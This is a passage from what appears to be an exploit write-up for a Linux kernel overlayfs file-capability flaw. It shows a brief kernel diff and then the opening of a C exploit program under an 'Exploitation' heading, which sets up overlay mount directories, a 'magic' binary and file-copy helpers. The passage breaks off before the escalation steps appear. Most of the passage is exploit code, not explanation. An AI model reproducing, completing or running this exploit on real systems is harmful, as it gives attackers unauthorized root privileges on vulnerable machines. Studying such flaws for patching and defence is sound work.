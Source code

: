```c
 	nscap->magic_etc = cpu_to_le32(nsmagic); 
 	memcpy (&nscap->data, &cap->data,  sizeof (__le32) *  2  * VFS_CAP_U32); 
 
-	kvfree(*ivalue); 
 	*ivalue = nscap; 
 	return  newsize; 
 } 
```

## Exploitation 

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
```